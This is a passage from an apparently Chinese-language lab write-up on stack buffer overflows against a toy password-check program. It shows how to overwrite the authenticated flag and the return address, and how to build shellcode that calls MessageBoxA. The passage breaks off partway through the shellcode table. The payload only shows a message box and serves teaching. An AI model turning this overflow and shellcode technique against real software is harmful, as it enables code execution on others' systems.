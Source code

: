 将跳转地址覆盖为验证通过的地址

![Mq2qZF.png](https://s2.ax1x.com/2019/11/23/Mq2qZF.png)

用ultraedit编辑password文件，任意填充8字符覆盖password，4字符覆盖authenticated，4字符覆盖上一栈帧的ebp,填入4个字符返回地址。

![MqRldg.png](https://s2.ax1x.com/2019/11/23/MqRldg.png)

再运行程序

![MqRweU.png](https://s2.ax1x.com/2019/11/23/MqRweU.png)

## overflow(3):

程序与2的区别是增加了头文件windows.h，buff由8字节变成44字节，有足够空间填入代码。

找到buff地址和返回地址

![MLYJ5F.png](https://s2.ax1x.com/2019/11/24/MLYJ5F.png)

找到messageboxA入口地址

```c++
#include <stdio.h>
#include <windows.h>
 
typedef void (*FuncPointer)(LPTSTR);  // 函数指针  
 
int main()
{   
    HINSTANCE LibHandle;
    FuncPointer GetAddr;
    // 加载成功后返回库模块的句柄 
    LibHandle = LoadLibrary("user32");  
    printf("user32 LibHandle = 0x%X\n", LibHandle);
    // 返回动态链接库(DLL)中的输出库函数地址
    GetAddr=(FuncPointer)GetProcAddress(LibHandle,"MessageBoxA");   
    printf("MessageBoxA = 0x%X\n", GetAddr);
    return 0;
}
```

![MLt0zj.png](https://s2.ax1x.com/2019/11/24/MLt0zj.png)

构造password

| 机器码     | 汇编指令           | 解释                |
| ---------- | ------------------ | ------------------- |
| 33DB       | XOR EBX,EBX        | 将EBX寄存器置为NULL |
| 53         | PUSH EBX           |                     |
| 686A6F6B65 | PUSH 656b6f6a      | Thisjoke            |
| 6854686973 | PUSH 73696854      |                     |
| 8BC4       | MOV EAX,ESP        | EAX里存入字符串指针 |
| 53         | PUSH EBX           |                     |
| 50         | PUSH EAX           |                     |
| 50         | PUSH EAX           |                     |
| 53         | PUSH EBX           |                     |
| B8301D3148 | MOV EAX,0x48311D30 | 调用MessageBoxA     |